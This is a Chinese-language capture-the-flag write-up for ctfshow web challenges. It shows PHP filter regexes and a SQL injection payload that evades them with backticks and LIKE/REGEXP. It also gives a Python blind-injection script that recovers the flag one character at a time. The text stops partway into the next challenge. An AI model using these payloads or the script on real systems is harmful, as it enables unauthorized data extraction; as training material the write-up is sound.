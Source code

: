 ```
  function waf($str){
    return preg_match('/ |\*|\x09|\x0a|\x0b|\x0c|\x0d|\xa0|\x00|\#|\x23|file|\=|or|\x7c|select|and|flag|into/i', $str);
  }
```

不允许select or and flag into =

用like+正则 

tableName=`ctfshow_user`where`pass`like'%25c%25'，直接POST上去。

然后，使用盲注脚本：

```
import requests

url = 'http://59418fd8-bd5f-4fd3-bc04-9997ef8ac8e4.challenge.ctf.show/select-waf.php'

flagstr = '1234567890asdfghjklqwertyuiopzxcvbnm-_{}'
flag = 'ctfshow{'

for i in range(50):
    for x in flagstr:
        data = {
            'tableName': f"`ctfshow_user`where`pass`regexp'{flag + x}'"
        }
        res = requests.post(url=url, data=data)
        if res.text.find('user_count = 1;') > 0:
            flag += x
            print('++++++++++++++++++++++++right:   ' + x)
            break
        else:
            print('+++++++++++++++++wrong:  ' + x)
    print(flag)

```

运行即可发现flag的值会一点一点拼出来，直到括号闭合成功后即可停止脚本执行提交flag。



### web184

```
  function waf($str){
    return preg_match('/\*|\x09|\x0a|\x0b|\x0c|\0x0d|\xa0|\x00|\#|\x23|file|\=|or|\x7c|select|and|flag|into|where|\x26|\'|\"|union|\`|sleep|benchmark/i', $str);
  }
```

这题过滤了where，‘ ，",*,等符号，目的是使用左右连接查询进行注入。

已知条件：flag格式：ctfshow{ 这个字符开头。

好多wp和官方视频没有解释为什么要使用$user_count=43,来做判断条件，基本不好的小白就很难受了。
